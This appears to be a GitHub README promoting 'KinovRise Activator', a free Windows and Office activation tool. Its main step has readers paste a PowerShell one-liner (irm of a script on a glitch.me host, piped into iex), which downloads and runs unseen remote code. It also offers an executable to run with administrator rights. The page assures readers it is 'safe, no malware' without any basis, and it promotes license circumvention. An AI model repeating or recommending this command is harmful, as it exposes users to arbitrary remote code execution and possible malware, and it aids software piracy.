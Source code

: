 <p align="center">
	<a href="https://imgbb.com/"><img src="https://i.ibb.co/jPK6tNxy/logo.png" alt="logo" border="0"></a>
</p>
<h1 align="center">KinovRise Activator </h1>
<p align="center">KinovRise is our project that helps you activate Windows and Office as quickly as possible, for free, for multi-computer activation, easy to use , safe , no malware.</p>
<img alt=”Project's website” src=”https://img.shields.io/badge/react-%2320232a.svg?style=for-the-badge&logo=react&logoColor=%2361DAFB"/>
<hr>
  
## How to Activate Windows / Office?

### Fastest - Powershell

1.   **Open PowerShell**  
	To do that, press the Windows key + X, then select PowerShell or Terminal.

2.   **Copy and paste the code below, then press enter.**  
```
irm "https://kra-activated.glitch.me/kinovrise.ps1" | iex
```

### Use KinovRise.exe

If you cannot do method 1 as above, then we come to method 2: use KinovRise.exe, download it from the Release section, then run with administrator rights and activate as usual.

### Note !!

Note: The license will be renewed for 180 days when the user activates, then it will be renewed by the client connecting to the KinovRise server. If after 180 days the system does not renew, the user will reactivate to use! If the license activation fails, the user will use the Troubleshooter to Active Windows with the KinovRise license. Thank you!

### Support and Unsupported : 
[Check here](https://ranusteam41.github.io/ranusteam.github.io/supported_unsupported)
### Testing KinovRise
https://github.com/user-attachments/assets/d83c4b99-fc67-4dcb-9055-2bf88ecb538b
### Credits 
Project creator: TivinovDEv (https://github.com/TivinovDEv)
- Support: ranusTeam41
- If you have the heart, please help the software to develop and become more popular!
Information at:



<p align="center">Made with love ❤️</p>
